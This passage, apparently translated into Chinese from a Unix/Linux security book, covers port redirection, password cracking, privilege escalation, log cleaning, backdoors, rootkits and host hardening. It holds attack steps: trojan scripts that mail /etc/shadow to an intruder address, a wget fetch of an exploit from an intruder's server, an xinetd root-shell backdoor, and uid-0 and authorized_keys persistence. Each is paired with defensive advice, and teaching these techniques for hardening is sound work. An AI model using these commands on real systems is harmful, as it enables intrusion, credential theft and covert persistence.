### 本地端口重定向

假设攻击者需要连接到一台已受控主机上的 MySQL 服务器。如果在受控主机之前或之上存在一个仅允许在 80 端口上入站连接的防火墙，攻击者可能在受害机器上执行以下操作：

```
[victim_host]$ zebedee -T 80 -s 127.0.0.1:3306
```

接下来，攻击者可以在其本机执行以下操作：

```
[intruder's_host]$ zebedee -T 80 victim's_ip_address
3306:127.0.0.1:3306
```

这将导致攻击者主机上的 `Zebedee` 进程连接到受害主机上监听 80 端口的 `Zebedee` 进程。攻击者现在可以连接到其主机 `127.0.0.1` 的 3306 端口，通过 `Zebedee` 隧道连接到受害主机的 3306 端口。

> 攻击者可以在受害主机上运行 `ifconfig` 和 `route -n` 命令，以识别可能允许连接到内部网络的额外网卡。与其在刚才描述的 `Zebedee` 命令中指定 `127.0.0.1`，攻击者可以指定内部机器的 IP 地址。这将导致监听在受害主机 80 端口上的 `Zebedee` 将流量重定向到指定的内部主机和端口。

### 远程端口重定向

考虑这样一种情况：在受害主机之前或之上有一个防火墙，它不允许任何入站连接，并仅允许在 80 端口上出站连接。

我们可以使用 `Zebedee` 来执行远程端口转发，这将导致运行在攻击者主机上的 `Zebedee` 进程等待来自受害主机上客户端 `Zebedee` 进程的连接。

首先，攻击者必须在其主机上运行以下命令：

```bash
[intruder's_host]$ zebedee -l 3306::*:3306 -T 80
```

现在，攻击者必须在受害主机上运行以下命令：

```bash
[victim_host]$ zebedee -T 80 -c intruder's_ip_address -s 127.0.0.1
```

此命令将导致受害主机上的 `Zebedee` 服务器进程发起出站连接到攻击者主机上监听 80 端口的 `Zebedee` 客户端进程。当攻击者连接到其机器 `127.0.0.1` 的 3306 端口时，他将通过 `Zebedee` 隧道连接到受害机器上的 3306 端口。

> 攻击者可以在受害主机上运行 `ifconfig` 和 `route -n` 命令，以识别可能允许连接到内部网络的额外网卡。攻击者可以在前面的命令中使用内部 IP 地址替代 `127.0.0.1`，以执行远程端口转发，转发监听在受害内部网络主机上的端口。

## 强化防火墙规则

尽可能收紧你的防火墙规则。务必也要限制出站连接。例如，一台仅作为 Web 服务器运行的主机必须不允许在任何端口上发起出站连接。

## 破解 /etc/shadow

大多数 Unix 和 Linux 发行版默认使用影子密码，其中加密的密码哈希值存储在 `/etc/shadow` 文件中。该文件仅 `root` 可读。假设攻击者已获得主机的 `root` 访问权限，他或她可以使用密码破解器来破解密码哈希值。

### 使用 John 破解 /etc/shadow

`John the Ripper` 可用于破解 `/etc/shadow`：

```bash
[bash]# john /etc/shadow
Loaded 2 passwords (FreeBSD MD5 [32/32])
tryer4ck1ngme          (root)
johnnypwd             (john)
```

`John the Ripper` 可从 http://www.openwall.com/john/ 获取。

### 使用强密码

采取以下步骤来强化密码要求策略并确保强密码：

- 强制用户使用强密码。如 `npasswd` 等实用工具，可从 http://www.utexas.edu/cc/_unix/software/npasswd/ 获取，以及 `pam_passwdqc`，可从 http://www.openwall.com/passwdqc/ 获取，有助于执行强密码策略。
- 强化允许的密码年龄和长度。根据你的发行版，编辑 `/etc/default/passwd` 或 `/etc/login.defs` 以完成此操作。
- 考虑使用动态密码方案，如 `S/KEY` 和 `SecurID`。

### 摘要

本章重点介绍了攻击者用于远程入侵易受攻击主机的技术。讨论了诸如暴力破解、嗅探、中间人攻击、密码破解、端口重定向、针对错误配置的利用、缓冲区溢出以及其他软件漏洞等策略。一旦攻击者获得了对易受攻击主机的远程访问权限，他或她将希望使用后续章节中描述的方法来维持访问权限并提升权限。

# 第 5 章

## 权限提升

本章内容：

- 利用本地信任
- 组成员身份和不正确的文件权限
- PATH 中的“.”
- 软件漏洞
- 摘要

许多漏洞允许攻击者获得对远程主机的非特权访问。在获得普通用户权限后，攻击者要采取的逻辑下一步是获得 *root*（超级用户）访问权限。除了外部攻击者外，恶意的本地用户也可能尝试利用本地漏洞以获得超级用户权限。

将权限提升到超级用户权限的行为通常被称为 *权限提升*。本章描述了一个拥有普通用户权限的个人试图获得超级用户权限的方法。

### 利用本地信任

在大多数情况下，防火墙被配置为限制来自外部主机和网络的访问。环回接口 `127.0.0.1` 上的流量通常不受限制。实际上，过滤环回接口上的流量可能会导致许多应用程序崩溃。本地用户可以利用这一条件，尝试扫描、枚举和利用无法远程访问的服务。因此，一旦攻击者获得了对主机的本地用户访问权限，他或她可能会尝试本书前面章节中描述的所有黑客技术，以提升权限。

### 组成员身份和不正确的文件权限

不正确的文件权限可能允许恶意用户读取或写入他们没有访问权限的文件。以下部分描述了恶意用户如何利用不正确的文件权限来提升其权限。

#### 查找组拥有的文件

假设攻击者已获得本地账户“joe”的访问权限。他或她可以通过发出 `id` 命令来找出“joe”所属的所有组：

```
[bash]$ id
uid=500(joe) gid=500(joe) groups=500(joe),501(proj1)
```

在注意到“joe”属于“proj”组后，攻击者可以发出以下命令，该命令将列出由“proj”组拥有的所有文件：

```
[bash]$ find / -group proj -print 2>/dev/null
/var/proj/main.c
/var/proj/main.o
/var/proj/README
/var/proj/passw.txt
/var/log/proj
```

现在，攻击者确切知道“proj”中“joe”可以访问哪些文件。其中有一个文件，`passw.txt`，看起来很有趣：

```
[bash]$ more /var/proj/passw.txt
Note that this program authenticates to the MySQL database
with the system password "r00t3rp455w."
```


管理员经常重用密码。如果受害主机的 `root` 密码与前面注释中显示的 MySQL 密码相同，那么攻击者可以通过发出 `su` 命令来获得 `root` 权限：

```
[bash]$ su -
Password: r00t3rp455w
[bash]# id
uid=0 (root) gid=0 (root) groups=0 (root), 1 (bin), 2 (daemon),
3 (sys), 4 (adm), 6 (disk), 10 (wheel)
```

### 查找所有用户可读和可写的文件

除了搜索组可读文件外，还可以搜索所有用户可读的文件，用户可能有权访问这些文件。例如，以下是如何搜索 `/etc` 目录中存在的所有所有用户可读文件：

```
[bash]$ find /etc -type f -perm -4 -print 2> /dev/null
```

`/etc` 中的许多文件不应是所有用户可读的。例如，`/etc/shadow` 文件包含用户的加密密码。任何有权访问此文件的人都可能使用 `John the Ripper` 等工具暴力破解用户密码。

攻击者可以通过发出以下命令来尝试搜索所有用户可写的文件：

```
[bash]$ find / -type f -perm -2 -print 2> /dev/null
/usr/sbin/in.telnetd
```

在本示例中，入侵者的 `"joe"` 账户对 `in.telnetd` 具有写权限。受害主机上的 `inetd` 或 `xinetd` 服务在每次有传入的 `telnet` 连接时，都会调用 `in.telnetd` 文件。入侵者可能会编辑 `in.telnetd` 文件，并将以下内容放入其中：

```
#!/bin/bash
xterm -display intruder_s_ip_address:0.0 &
```

现在，入侵者可以在其或她的本机上执行以下操作：

```
xhost +victim_s_ip_address
```

这赋予了受害机器在入侵者的 X 服务器上显示 X 程序的权限。现在，入侵者只需通过 `telnet` 连接到受害主机，这就会使 `inetd` 或 `xinetd` 以 `root` 权限调用 `/usr/sbin/in.telnetd`，从而在入侵者的界面上呈现来自受害主机的 `root` `xterm`！


### 确保权限适当

定期审计文件以确保适当的文件权限。

#### PATH 中的 "."

当用户执行命令时，命令 `shell` 会在 `PATH` 环境变量包含的目录列表中查找命令的位置：

```
[bash]$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/bin:/home/joe/bin:/bin
```

假设 `root` 用户的路径中包含当前目录 `"."`：

```
.:/usr/local/sbin:/usr/local/bin:/usr/bin:/usr/bin:/bin
```

现在，每次 `root` 用户执行诸如 `ls` 之类的命令时，`shell` 会先在当前目录中查找 `"ls"`，然后根据 `PATH` 变量中列出的顺序搜索其他目录。


#### 利用 PATH 中的 “.” 植入木马

拥有本地账户（如 `"joe"`）访问权限的恶意用户或入侵者可以创建一个名为 `"ls"` 的文件，并将其放入受害用户的家目录 `/home/joe`，内容如下：

```
#!/bin/bash
cat /etc/shadow | mail intruder@intruder_email.com
/bin/ls
```

如果 `root` 用户此时 `cd` 进入 `joe` 的目录并发出 `ls` 命令请求目录列表，`joe` 目录中前述的 `ls` 脚本将以 `root` 权限执行。这将导致 `/etc/shadow` 文件被邮件发送给入侵者。由于 `ls` 脚本在末尾调用了真正的 `/bin/ls` 程序，`root` 用户将会看到请求的目录列表。

#### 不要在 PATH 中包含 “.”

永远不要在 `PATH` 中包含当前目录 `"."`。

#### 软件漏洞

`Setuserid` 程序以文件所有者的权限执行。因此，`root` 所有的 `setuid` 文件无论由谁执行，总是以 `root` 身份运行。攻击者通常专注于 `setuid` 程序中的漏洞，因为这些往往导致权限提升。

使用以下命令来定位 `setuserid` 程序：

```
find / -perm -4000 -type f -print 2> /dev/null
```

主机上安装的软件中的漏洞可能允许恶意用户获取权限。以下是本地用户可能尝试利用的几种不同类型软件漏洞的示例。

##### 内核缺陷

操作系统内核中的漏洞也容易受到本地用户的利用。考虑 Linux 的 `"ptrace"` 漏洞，该漏洞利用了 2.2 和 2.4 内核中的竞态条件缺陷。

##### Ptrace 利用

为了利用 `ptrace` 漏洞，入侵者只需在受害机器上获取并运行利用程序：

```
[bash]$ wget http://intruder's_web_server/ptrace.c
--:17:03:52-- http://intruder's_web_server/ptrace.c
=> 'ptrace.c'
Resolving intruder's_web_server... done.
Connecting to intruder's_web_server[10.0.0.1]:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
[ <=>] 2,046 275.07K/s
17:03:52 (275.07 KB/s) - 'ptrace.c' saved [2046]
[bash]$ gcc -o ptrace ptrace.c
[bash]$ ./ptrace
[+] Attached to 11862
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4000edd
[+] Now wait for suid shell....
sh-2.05a# id
uid=0(root) gid=0(root) groups=0(root), 1(bin), 2(daeomon), 3(sys), 4(adm), 6(disk), 10(wheel)
```

请参见 `http://securityfocus.com/bid/3447` 获取更多信息。

##### 更新或修补内核

通常，内核开发者会迅速发布针对内核漏洞的补丁。务必在恶意用户利用之前立即安装这些补丁。

##### 本地缓冲区溢出

有关缓冲区溢出攻击的介绍，请参考第 4 章。

本地应用程序和服务也容易受到缓冲区溢出攻击。例如，`"HP-UX IPCS Core 文件缓冲区溢出漏洞"` 是由对核心文件名进行不当边界检查引起的。受此漏洞影响的 `ipcs` 程序可被本地用户利用以在受害主机上获取 `root` 权限。有关此漏洞的更多详情，请访问 `http://securityfocus.com/bid/7216`。

> 请勿忽视针对本地应用程序和服务安装最新补丁。有关更多信息，请参见第 9 章。

##### 不当的输入验证

对接受输入参数的程序执行输入验证非常重要。`Setuid` 程序以 `root` 用户的权限执行，因此，轻微的输入验证缺陷可能允许本地用户以超级用户权限执行命令。

作为一个例子，考虑 `run1pr` 实用程序，由于不当的输入验证条件，它被发现存在权限提升漏洞。详情参见 `http://securityfocus.com/bid/6077`。

##### 符号链接

符号链接是包含指向其他文件路径名的特殊文件。当程序尝试访问作为符号链接的文件时，内核会透明地将进程重定向到符号链接所指向的文件名。

虽然符号链接是一个有用的功能，但它们可以被用来利用那些未检查正在访问的文件是否为符号链接的易受攻击的程序。例如，考虑 `CDE Tooltalk` 符号链接漏洞，该漏洞未能检查正在写入的日志文件是否为符号链接文件。攻击者可以创建一个指向 `/etc/shadow` 的符号链接文件，其名称和路径与 `Tooltalk` 创建的日志文件相同。这将导致 `Tooltalk` 将其日志写入 `/etc/shadow`，导致其内容损坏。如果攻击者成功迫使将特定内容写入敏感文件，他或她可以利用此类漏洞获取提升的权限。有关 `CDE Tooltalk` 漏洞的更多详情，请参见 `http://securityfocus.com/bid/5083`。

##### Core 转储


当 Unix 或 Linux 进程崩溃时，操作系统会创建一个“core”文件。该文件包含有关崩溃进程的信息。Core 文件由开发人员用于调试软件。由于 core 文件包含有关崩溃进程的详细信息，入侵者可能会故意利用已知漏洞使正在运行的进程崩溃，以获取可能放在 core 文件中的敏感信息。

### Solaris FTP Core 转储 Shadow 文件恢复漏洞

旧版本 Solaris 中分发的 FTP 服务器已知在被迫使用以下命令崩溃时，会将 `/etc/shadow` 的一部分放入其 core 文件中：

```
cwd ~
```

使用此命令使 FTP 服务器进程崩溃后，入侵者可以获取转储的 core 文件以获取 `/etc/shadow` 文件的部分内容。这是一个尝试这样做的示例会话：

```
[bash]$ telnet 127.0.0.1 21
Trying 127.0.0.1....
Connected to 127.0.0.1.
Escape character is ‘^]’.
220 127.0.0.1 FTP server (SunOS 5.6) ready
user joe
331 Password required for joe.
pass wrongpassword
530 Login incorrect.
PWD -
530 Please login with USER and PASS.
Connection closed by foreign host.
[bash]$ strings /core | grep root
root:$1$Pybw1R$SbCKLz7/CBPbsPfxUcHLnogl:12141:0:99999:7:::
```


一旦入侵者获取了 `root` 用户的密码哈希，他或她可以使用 `John the Ripper` 等工具暴力破解密码。有关此 Solaris FTP 服务器漏洞的更多信息，请参见 [http://securityfocus.com/bid/2601](http://securityfocus.com/bid/2601)。有关如何使用 `John the Ripper` 进行密码破解的更多详情，请参见第 4 章。

### 及时安装软件补丁

软件供应商经常发布针对已公开漏洞的补丁。务必在恶意用户利用漏洞之前安装这些补丁。

### 配置错误

通常，管理员将全部注意力集中在加固远程服务上。对本地服务和应用程序的疏忽可能导致各种配置错误，使本地用户能够获取更高的权限。例如，管理员可能故意配置运行在主机上的数据库服务器，允许任何用户无密码连接。虽然防火墙可以防止远程用户登录数据库服务器，但这样的配置可能很容易允许本地用户提升权限。因此，强烈建议对本地服务和应用程序的配置进行定期加固和审计。

## 总结

本章重点介绍了入侵者用来将权限提升至 `root` 用户权限的技术。您了解了信任本地用户、不当的文件权限、配置错误以及软件漏洞的危险。在入侵者获得 `root` 权限后，他或她将完全控制受害主机。接下来，入侵者必须隐藏其踪迹，并植入木马和后门以确保持续访问。这些主题将在下一章中讨论。

请记住查阅本书第二部分，其中提供了如何进行主机加固的信息，这将有助于防御本章介绍的许多权限提升攻击。

# 第 6 章：隐藏踪迹

本章内容：

- 清理日志
- 后门
- 木马
- 根植体（Rootkits）
- 摘要

在获得主机的 `root` 权限后，入侵者通常会希望保持持续访问。此外，入侵者可能希望清除其踪迹，以免被系统管理员注意到。本章描述了入侵者常用的各种技术和工具，用于隐藏其存在并确保对受害主机的持续访问。

## 清理日志

以下是入侵者用于禁用和清理日志机制及文件的一些技术。

### Shell 历史记录

命令行 Shell 通常会创建包含最近执行命令的日志文件。例如，`bash` shell 会在用户目录中创建一个 `.bash_history` 文件。可以使用 `tail` 命令查看用户最近执行的 20 条命令：

```bash
[bash]# tail -20 /root/.bash_history
cat /etc/shadow
rm -rf /var/log/*
ifconfig -a
netstat -nap
wget http://hacker's_ip/trojans.tgz
mkdir ...
mv trojans.tgz ...
cd ...
tar zxvf trojans.tgz
./configure
make install
ifconfig -a
ps U root
lastlog
ls -aL~ | more
clear
route -n
cat /etc/shadow | mail hacker@hacker's_ip
rm -rf /var/log/maillog
```

这段 `/root/.bash_history` 的片段提供了主机被入侵后黑客典型活动的良好示例。

### 禁用 Shell 历史记录

为了禁用命令历史记录，入侵者可以将 shell 的历史文件设置为指向 `/dev/null` 的符号链接：

```bash
(bash)# rm -rf /.bash_history
(bash)# ln -s /dev/null /.bash_history
```

现在，任何试图向 `/.bash_history` 写入数据的进程实际上是在向 `/dev/null` 写入数据，这是一个不包含任何内容（空）的特殊文件。这将导致 `bash` shell 写入的所有历史数据被丢弃。

### 启用系统审计和日志记录

Shell 历史文件的目的是帮助用户回忆最近执行的命令。从系统安全的角度来看，它从未被设计为提供任何日志记录机制。用户 shell 历史文件中包含的信息不应被信任，因为用户可能会删除或编辑该文件以包含他们希望的任何信息。相反，管理员应将精力集中在启用和强化系统审计及日志策略上，如本书第二部分所述。

### 清理 /var

`/var` 目录通常包含以下日志文件：

- `utmp` 和 `wtmp`：包含有关登录到系统的用户的信息
- `messages` 和 `secure`：由 `syslog` 守护进程使用，用于记录由各种应用程序和守护进程提交的日志信息
- `xferlog`：由 FTP 守护进程使用，用于记录数据传输请求
- `maillog`：由 SMTP 服务器使用，用于记录邮件传输
- `lastlog`：包含有关最近登录用户的信息

入侵者可能手动编辑上述文件以隐藏其存在。大多数情况下，入侵者会使用如 `zap3` 等自动化工具来完成此任务。`zap3` 工具可以清理 `utmp`、`wtmp`、`messages`、`secure` 和 `lastlog`。它可从 [http://www.packetstormsecurity.org/](http://www.packetstormsecurity.org/) 获取。

此外，入侵者可能会禁用日志服务，如 `syslogd`，并修改其配置文件（`syslog.conf`）以将日志记录到如 `/dev/null` 这样的文件中。

## 后门

一旦入侵者访问了系统，他或她很可能希望保持其特权状态。本节介绍了一些熟练黑客可能使用以确保对受感染主机持续访问的不同方法。

### 安装远程 Shell 服务

入侵者可能会在 `inetd.conf` 文件或在 `xinetd.d` 目录中添加一个条目，以便让 `inetd` 或 `xinetd` 在特定端口上提供远程 shell。这可以通过配置 `inetd` 或 `xinetd` 执行 `/bin/bash` 或其他任何命令 shell 来完成。一旦完成此操作，攻击者就可以通过 `telnet` 连接到远程端口来获取远程 shell。

例如，攻击者可以将以下内容放入文件 `/etc/xinetd.d/domain` 中：

```text
service domain
{
    socket_type    = stream
    wait           = no
    user           = root
    server         = /bin/bash
    server_args    = -i
}
```

为了使此代码生效，必须重启 `xinetd`。现在，当攻击者通过 `telnet` 连接到受害主机的 53 端口（domain）时，他或她将看到一个 `root` shell：

```text
[bash]$ telnet victim's_ip_address 53
Trying 10.0.0.1...
Connected to 10.0.0.1.
Escape character is '^'.
stty: standard input: Invalid argument
readline: warning: rl_prep_terminal: cannot get terminal settings
[root@enemem /]# id
uid=0(root) gid=0(root)
```


或者，入侵者可能会在 root 的 crontab 文件中添加一个条目，并使用 `Ncat`（`nc`）定期发起出站连接到外部主机并提供 shell。当然，主机必须配置为使用 `Ncat` 的 `-l` 选项监听入站连接。

### 防止远程 Shell 服务安装

以下措施有助于预防和检测远程 shell 服务的安装：

- 尽可能收紧防火墙规则。也要确保限制出站连接。例如，唯一目的是作为 Web 服务器的主机不允许在任何端口上发起出站连接。
- 如果没有相关服务在使用，请禁用并卸载 `xinetd` 或 `inetd`。
- 使用 `netstat` 检查主机正在监听哪些端口及其关联进程：

```bash
netstat -nap
```

### 由 root 拥有的 Setuid 和 Setgid Shell

Setuid 和 setgid 程序以文件所有者或组的权限运行。获得 root 权限的入侵者可能会将 `/bin/bash` 的副本放置在其他位置，并使用 `chmod` 命令加上 `+s` 参数来设置其 setuid 标志。完成此操作后，入侵者可以使用非 root 账户重新登录，并只需运行该 setuid 的 bash 可执行文件即可获得 root shell。

> 定期审计文件系统以查找 setuid 和 setgid 可执行文件是个好主意。要查找 setuid 文件，请运行：

```bash
find / -perm -4000 -type f -print 2> /dev/null
```

要查找 setgid 文件，请运行：

```bash
find / -perm -2000 -type f -print 2> /dev/null
```

### 将本地账户的 uid 更改为 0

root 账户的 uid（用户 ID）等于 0。如果另一个账户的 uid 被设置为 0，该账户将获得 root 权限。

#### 为本地用户分配 uid 为 0

考虑 `/etc/passwd` 中用户 `joe` 的以下条目：

```text
joe:x:500:500::/home/joe:/bin/bash
```

获得 root 权限的攻击者可能会将 `/etc/passwd` 中的前一个条目更改为：

```text
joe::x:0:0::/home/joe:/bin/bash
```

这将赋予用户 “joe” 超级用户权限。现在入侵者需要做的只是确保对 “joe” 账户的持续访问。

#### 审计 /etc/passwd

定期审计 `/etc/passwd` 以确保只有 root 的 uid 和 gid 设置为 0。

### .rhosts

用户通常会在其主目录中放置一个 `.rhosts` 文件，以便促进从远程主机无密码登录。这种机制可以被入侵者滥用，以在不使用密码的情况下维持对受害主机的持续访问。

#### 滥用 .rhosts 以确保持续的 root 访问

入侵者可能会将以下 `.rhosts` 文件放置在 `/` 或 `/root` 中：

```text
intruder's_ip_address +
```

这将允许入侵者从他的主机以 root 身份进行 rlogin 而无需密码。

#### 审计 .rhosts 并考虑使用 SSH

如果您正在运行 r-services，强烈建议采取以下措施：

- 考虑使用 SSH 作为 rlogin 和其他 r-services 的替代方案。
- 如果您必须保留 rlogin 和其他 r-services 启用状态，请使用 find 命令定期审计恶意 `.rhosts` 文件的存在：

```bash
find / -name .rhosts -print
```

攻击者也可以在 `/etc/hosts.equiv` 中添加一个条目，该条目提供与 `.rhosts` 相同的功能。定期检查此文件是个好主意。如果未在使用，请删除 `/etc/hosts.equiv`。

### SSH 的 authorized_keys

如果受害主机正在运行 SSH 服务器，入侵者可以通过将其公钥放置在 root 用户的 `.ssh` 目录中来维持对该主机的访问权限。SSH 将信任该公钥，只要入侵者拥有相关的私钥，就允许其登录。

#### 滥用 SSH 的 Authorized_Keys 机制以确保持续的 root 访问权限

入侵者可以使用其主机上的 `ssh-keygen` 程序创建所需的公钥和私钥对：

```bash
[bash]$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/intruder/.ssh/id_rsa):
Created directory '/home/intruder/.ssh'.
Enter passphrase (empty for no passphrase): [enter]
Enter same passphrase again: [enter]
Your identification has been saved in /home/intruder/.ssh/id_rsa.
Your public key has been saved in /home/intruder/.ssh/id_rsa.pub.
The key fingerprint is:
38:3c:7b:db:05:00:10:62:25:57:57:cb:8b:85:05:9a:a9 intruder@intrudersh
```

现在，入侵者必须将 `.ssh/id_rsa.pub` 的内容复制到受害主机上的 `.ssh/authorized_keys`。完成此操作后，入侵者即可无需密码通过 SSH 登录受害主机：

```bash
[bash]$ ssh root@victim's_ip_address
Last login: Sun Mar 30 02:23:48 2003 from intruder's_host
[bash]#
```

#### 不允许 root 通过 SSH 登录

不要允许 root 通过 SSH 登录。为了强制执行此规则，请编辑 `sshd_config` 并确保存在以下行：

```text
PermitRootLogin no
```

#### Loki2

Loki2 是一个免费可用的工具，常被入侵者用于安装后门。它使用 ICMP_ECHO 和 ICMP_REPLY 数据包来隧道传输 shell 命令。由于其数据包看起来可能像是由 ping 工具生成的 ICMP 流量，因此极难检测。

有关 Loki2 的更多信息可在 [http://www.phrack.com/show.php?p=51&a=6](http://www.phrack.com/show.php?p=51&a=6) 获取。

#### 收紧防火墙规则

配置防火墙以丢弃传入的 ICMP 回显请求和传出的 ICMP 回显应答。此外，除非必要，否则阻止所有传入和传出的 UDP 流量。

### 特洛伊木马（TROJANS）

黑客经常在受害主机上放置各种命令的修改后二进制文件。这些修改后的二进制文件看似正常运行，但它们会暗中代表入侵者执行恶意命令。

#### 特洛伊化常见命令

入侵者可以用以下脚本替换 `/bin/ls` 二进制文件：

```bash
#!/bin/bash
cat /etc/shadow | mail intruder@intruders_email
/bin/ls.old
```

该脚本将 `/etc/shadow` 文件通过电子邮件发送给入侵者。当然，这只有在 root 用户执行该脚本时才会成功。请注意，该脚本调用的是原始的 ls 二进制文件（保存为 `/bin/ls.old`）。这使得受害用户很难检测到它。这些修改后的二进制文件被称为*特洛伊木马（Trojans）*。

以下是入侵者最常特洛伊化的二进制文件：

- arp
- cat
- chfn
- chsh
- crontab
- du
- ifconfig
- finger
- find
- killall
- more
- locate
- login
- ls
- lsof
- passwd
- pidof
- ps
- route
- netstat
- tail
- tcpd
- tcpdump
- top
- w
- who
- syslogd

有关其中许多命令的说明，请参阅本书参考中心的“常见命令”章节。

#### 检测特洛伊木马

请参阅“检测 Rootkits”。

### ROOTKITS

收集并安装特洛伊木马和后门不需要入侵者花费太多精力。他们只需在网上搜索 rootkits 即可。*Rootkits* 是由现成的特洛伊木马组成的软件包，旨在方便黑客使用。它们还包含其他工具，使入侵者能够自动清理日志文件、安装后门以及使用诸如网络嗅探器等工具。以下几个攻击实例介绍了一些在线免费流行的 rootkits。

#### Adore


Adore rootkit 是一组 Linux 内核模块，可让入侵者隐藏进程、文件和网络设备详细信息。它还包含一个 root shell 后门。Adore 可从 http://www.team-teso.net/releases.php 获取。

## Linux Rootkit (LRK)

最流行的 Linux rootkit——LRK 包含许多常见命令的特洛伊化二进制文件，包括但不限于：`chfn`, `chsh`, `crontab`, `du`, `find`, `ifconfig`, `inetd`, `killall`, `login`, `ls`, `netstat`, `passwd`, `pidof`, `ps`, `rshd`, `syslogd`, `tcpd`, `top`, `sshd` 和 `su`。它还包含嗅探器以及 root shell 后门。LRK 可从 http://www.packetstormsecurity.org/ 获取。

## Tornkit

Tornkit 由各种特洛伊二进制文件、嗅探工具以及自动禁用 `syslogd` 和其他关键服务的工具组成。可从 http://www.packetstormsecurity.org/ 下载。

## Knark

Knark 是一种可以隐藏文件和进程的 rootkit，并且还具有重定向命令的能力。它包含一个可用于远程执行命令的后门。Knark 可从 http://www.packetstormsecurity.org/ 获取。

## 检测 Rootkits

可以使用以下工具来检测 rootkits 和特洛伊木马：

- `Chkrootkit` 可用于检查系统上的 rootkits。可从 http://www.chkrootkit.org/ 获取。
- 使用 `Tripwire` 或 `Samhain` 来检测修改后的二进制文件。有关 `Tripwire` 的更多详细信息，请参见 http://www.tripwire.com/。有关 `Samhain` 的信息可在 http://samhain.sourceforge.net/ 获取。


### 总结

从清理日志文件到安装后门和 rootkits，本章描述的众多技术列举了入侵者采用的各种方法，以隐藏其踪迹并确保对受害主机持续的 root 访问权限。正如讨论的主题所示，检测高级黑客的存在通常相当困难。因此，虽然本章结束了攻击方法论的内容，但强烈建议您考虑本书第二部分中的建议，以对主机的策略和配置进行加固。

# 第二部分

## 主机加固

- 第 7 章 默认设置和服务
- 第 8 章 用户和文件系统权限
- 第 9 章 日志记录和补丁管理

此页有意留空

## 第 7 章

### 默认设置和服务

**本章内容：**

- 设置密码策略
- 删除或禁用不必要的账户
- 从 PATH 变量中移除 `~`
- 检查 `/etc/hosts.equiv` 的内容
- 查找 `.rhosts` 文件
- 禁用栈执行
- 使用 TCP Wrappers
- 加固 inetd 和 xinetd 配置
- 加固远程服务
- 总结

大多数 Unix 和 Linux 发行版的默认安装为加固各种策略、应用程序和服务留下了改进空间。本章提供了有关如何加固主机及其常用服务的技巧。

#### 设置密码策略

入侵者经常利用薄弱的密码策略来获取用户账户的访问权限。为了加固密码策略，可以采取以下步骤：

- 确保使用影子密码（shadowed passwords）。检查确保 `/etc/passwd` 文件中没有密码哈希值。密码哈希值应仅存在于 `/etc/shadow` 中，并且该文件必须仅可由 root 读取。
- 编辑 passwd 配置文件（`/etc/default/passwd`）或使用 `chage` 实用程序更改密码过期时间长度。

#### 删除或禁用不必要的账户

检查 `/etc/passwd` 以查看主机上启用的账户。许多服务在运行期间会创建非特权账户，例如：`ftp`, `lp`, `news`, `gopher`, `ntp`。确保通过将它们的 shell 设置为 `/bin/false` 来禁用此类账户。如果这些账户对应的服务未被使用，请卸载它们并删除账户。

#### 从 PATH 变量中移除 ""

当用户执行命令时，命令 shell 会在 PATH 环境变量包含的目录列表中搜索命令的位置。为防止执行恶意用户放置在文件系统上的特洛伊木马，请确保 PATH 环境变量永不包含当前目录（`"./"`）。

检查 `/etc/rc.local`、`/etc/profile`、`/etc/bashrc`、`/etc/csh.cshrc`、`~/.bashrc`、`~/.bash_profile`、`~/.cshrc` 和 `~/login` 等文件，以确保 PATH 变量不包含 `""`。如果您使用的不是 bash shell，请检查相应的资源文件。

使用 `echo` 打印当前用户 PATH 变量的值：

```bash
echo $PATH
```

#### 检查 /etc/hosts.equiv 的内容

`/etc/hosts.equiv` 文件包含一个被认为受信任的主机名和用户列表。`rlogin`、`rsh`、`rcp` 和 `rcpd` 等服务使用此文件来确定受信任的实体。请检查此文件，确保其中仅存在受信任的主机名和用户。如果不需要信任任何远程主机或用户，建议删除此文件。

#### 检查 .rhosts 文件

检查文件系统中是否存在 `.rhosts` 文件。该文件中包含的主机名和用户名允许通过 `rlogin` 等 r-服务登录，而无需指定密码。使用 `find` 命令检查 `.rhosts` 文件：

```bash
find / -name .rhosts -type f -print 2> /dev/null
```

#### 禁用堆栈执行

禁用堆栈执行可以防止某些类型的缓冲区溢出情况。如果使用 Solaris，请编辑 `/etc/system` 并添加以下行：

```
set noexec_user_stack=1
set noexec_usr_stack_log=1
```

对于非 Solaris 发行版，可以使用以下产品：

- `StackGuard`: http://www.immunix.org/stackguard.html
- `Libsafe`: http://www.research.ayavalabs.com/project/libsafe/
- `StackGhost`: http://stackghost.cerias.purdue.edu/
- `Openwall`: http://www.openwall.com/linux

#### 使用 TCP WRAPPERS

TCP Wrappers 允许监控和过滤针对网络服务的传入请求。大多数发行版默认安装 TCP Wrappers，但如果您需要它，可以从 `ftp://ftp.porcupine.org/pub/security/index.html` 获取。

在安装了 TCP Wrappers 的主机上，编辑 `/etc/hosts.allow`，并确保以下行是第一个未注释的语句：

```
ALL::ALL:deny
```

同时，确保默认拒绝来自所有主机的连接。可以通过在 `/etc/hosts.deny` 中放置以下条目来实现：

```
all:all
```

通过在 `/etc/hosts.allow` 中放置适当的条目，仅允许受信任的主机连接到服务。请参阅 `http://www.cert.org/security-improvement/implementations//041.07.html` 获取详细说明。

#### 加固 inetd 和 xinetd 配置

互联网服务守护进程 `inetd` 用于启动提供网络服务的守护进程。它监听所有必需的端口，并在传入网络连接到达时立即启动相应的守护进程。因此，`inetd` 常被称为“超级服务器”。`xinetd` 守护进程与 `inetd` 类似，但它包含更多的功能，因此 `inetd` 用户应强烈考虑升级到 `xinetd`。

##### 禁用不必要的服务

如果使用 `inetd`，请编辑 `inetd.conf` 文件，确保不必要的服务已禁用。例如，考虑 `inetd.conf` 中负责 FTP 守护程序的以下行：

```
ftp stream tcp nowait root /usr/local/etc/tcpd /usr/local/etc/ftpd
```

要从 `inetd` 禁用 FTP，请在该行前添加 #：

```
#ftp stream tcp nowait root /usr/local/etc/tcpd /usr/local/etc/ftpd
```

重新启动 `inetd` 以使更改生效：

```
killall -HUP inetd
```

如果使用 `xinetd`，请编辑 `xinetd.d` 目录中相应的服务文件，并确保存在 `disable=yes` 行。


许多服务独立于 `inetd` 和 `xinetd` 运行。通过编辑或删除 `/etc/rc.d/` 目录中适当的脚本，来禁止不必要的服务启动。

### 如果未启用服务，则禁用 inetd 或 xinetd

